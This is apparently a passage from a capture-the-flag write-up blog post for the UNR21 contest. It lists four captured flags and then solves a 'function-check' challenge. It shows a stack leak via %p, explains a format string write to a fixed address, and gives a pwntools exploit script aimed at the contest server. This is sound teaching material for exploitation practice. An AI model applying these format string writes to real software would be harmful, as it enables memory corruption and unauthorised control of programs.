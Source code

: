                           ` | '
^C
yakuhito@furry-catstation:~/ctf/unr21-tms$
{% endhighlight %}

**Flag 1:** ctf{d6285bf0fef00f1b70cb52bdf168d2b6463d53b484bd6da7e098b3d5617bddaa}
**Flag 2:** ctf{8c4384c8f1b5ae73359592cd5d34b4eeacea1c757989dacce29d637d2f4b25f1}
**Flag 3:** ctf{8d9f87dc5144aa305af81f2106eb723480bfc1a5f5ca34ef4374de2641814727}
**Flag 4:** ctf{fca862cbd46080db28cbe3c541a0de84db1bb53baf1242d5532c6338e5634a4b}

## function-check {#function-check}
{% highlight bash %}
We need a master to manipulate the syntax of a program. Flag format: CTF{256}
{% endhighlight %}

{% highlight bash %}
yakuhito@furry-catstation:~/ctf/unr21-tms$ chmod +x format 
yakuhito@furry-catstation:~/ctf/unr21-tms$ ./format 
Hi hacker! What's your name?
yaku
Wellcome yaku
Break stuff.  yaku
Value to break is at 0x804a030 and has a hex value 0x0000000a 
Try Harder!!
yakuhito@furry-catstation:~/ctf/unr21-tms$ ./format 
Hi hacker! What's your name?
yaku %p
Wellcome yaku %p
Break stuff.  yaku 0xffeb08e8
Value to break is at 0x804a030 and has a hex value 0x0000000a 
Try Harder!!
yakuhito@furry-catstation:~/ctf/unr21-tms$
{% endhighlight %}

The program is vulnerable to a format string attack. To get the flag, we'll need to set the variable located at address `0x804a030` to `0x20` (take a look at the `main` function using IDA). The first step is to find of the input on the stack - you can do that by sending `prefix + p32(addr) + b"%OFFSET$x"` to the application until the output contains the address you want to write to. After that, add `b"%OFFSET$n"` to write a value to that address. If the number written is not what you desire, just modify `b"%OFFSET$x"` to `b"%OFFSET$NUMBERx"`, calculating NUMBER so that the value written will be `0x20` (32). Here's my solve script:

{% highlight bash %}
from pwn import *

context.log_level = "critical"

r = remote("35.242.196.216", 32023)
#r = process("./format")

addr = p32(0x804a030)
payload = b"yaku  " + addr + b"%9$8x%9$n"

r.sendlineafter(b"name?\n", payload)
r.interactive()
{% endhighlight %}
